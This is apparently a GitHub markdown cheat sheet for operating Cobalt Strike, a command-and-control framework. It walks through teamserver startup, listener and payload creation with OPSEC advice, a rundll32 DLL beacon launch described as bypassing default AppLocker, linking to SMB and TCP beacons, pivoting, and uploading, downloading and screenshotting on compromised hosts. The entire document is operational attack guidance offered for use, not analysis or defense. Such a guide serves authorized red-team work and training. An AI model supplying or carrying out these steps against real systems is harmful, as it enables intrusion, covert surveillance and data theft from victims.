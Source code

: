 # Cobalt-Strike cheatsheet.

#### Start teamserver
```
cd /opt/cobaltstrike
./teamserver <IP> <PASSWORD>
```

#### Create a listener
- Cobalt Strike --> Listeners -->  Click the Add button and a New Listener dialogue will appear.
- Choose a descriptive name such as ```<protocol>-<port>``` example: ```http-80```.
- Set the variables and click Save.

#### Create a payload
- OPSEC: Staged payloads are good if your delivery method limits the amount of data you can send. However, they tend to have more indicators compared to stageless. Given the choice, go stageless.
- OPSEC: The use of 64-bit payloads on 64-bit Operating Systems is preferable to using 32-bit payloads on 64-bit Operating Systems.
- Attacks --> Packages --> Windows Executable (S).

#### Create dll payload
- Bypasses default applocker configuration
```
C:\Windows\System32\rundll32.exe C:\Users\Administrator\Desktop\beacon.dll,StartW
link <COMPUTERNAME>
```

#### Create peer-to-peer listener
- Creating P2P listeners can be done in the Listeners menu, by selecting the TCP or SMB Beacon payload type.
- Then create payload for the new listener!

#### Connect to beacon
- Works like a bind shell. Most used are SMB or TCP.
- Run the payload on the target
- Connect to the beacon with ```link``` for smb and ```connect``` for tcp.
```
connect <IP> <PORT>
link <IP>
```

#### Create pivot listener
- To start a Pivot Listener on an existing Beacon, right-click it and select Pivoting --> Listener.
- Might need to open port on the firewall

#### Upload and download files
```
upload <FILE>
download <FILE>
```

#### Take screenshots
```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop
```
